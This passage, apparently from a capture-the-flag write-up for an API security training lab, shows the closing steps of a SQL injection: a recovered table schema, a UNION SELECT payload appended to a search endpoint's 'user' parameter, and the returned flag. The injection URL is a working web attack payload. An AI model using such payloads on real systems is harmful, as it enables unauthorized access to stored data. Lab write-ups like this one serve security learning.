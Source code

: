 ```json
[["CREATE TABLE flags(id INTEGER PRIMARY KEY, flag TEXT)", ""]]
```

![image.png](images/image%2031.png)

Now I knew the column name: `flag`.

---

Now for the final step. I used:

```

https://search-for-secrets.ac25.apisecuniversity.com/api/search?user=admin' UNION SELECT flag FROM flags -- -

```

And out came the sweet reward:

```json
json
CopyEdit
[["flag{SQL1_4P1_BYPA55_C0MP13T3!}",""],["admin",""]]

```
